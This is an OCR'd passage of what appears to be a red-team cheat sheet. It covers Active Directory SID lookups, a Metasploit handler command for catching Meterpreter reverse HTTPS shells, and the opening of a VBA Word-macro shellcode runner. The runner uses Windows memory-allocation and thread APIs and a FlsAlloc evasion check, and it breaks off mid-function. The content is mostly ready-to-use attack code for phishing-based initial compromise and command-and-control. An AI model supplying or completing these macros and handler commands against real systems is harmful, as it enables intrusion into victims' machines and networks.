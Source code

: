 ### SID and Name

#### SID to Name
```powershell
convertfrom-sid S-1-5-21-3776646582-2086779273-4091361643-1601
```
#### Name to SID:
```powershell
Get-DomainSID -Domain child.red.com
```

## C2 Preparations
### Metasploit
```bash
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 192.168.x.y; set LPORT 443; set ExitOnSession false; run -zj"
```

## Initial Compromise
### Word Macro
#### VBA Shellcode Runner (x86)
```vba
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Private Declare PtrSafe Function Sleep Lib "KERNEL32" (ByVal mili As Long) As Long

Private Declare PtrSafe Function FlsAlloc Lib "KERNEL32" (ByVal callback As LongPtr) As LongPtr

Function mymacro()

Dim allocRes As LongPtr

Dim buf As Variant

Dim addr As LongPtr

Dim counter As Long

Dim data As Long

Dim res As Long

Dim t1 As Date

Dim t2 As Date

Dim time As Long

allocRes = FlsAlloc(0)

If IsNull(allocRes) Then

End
```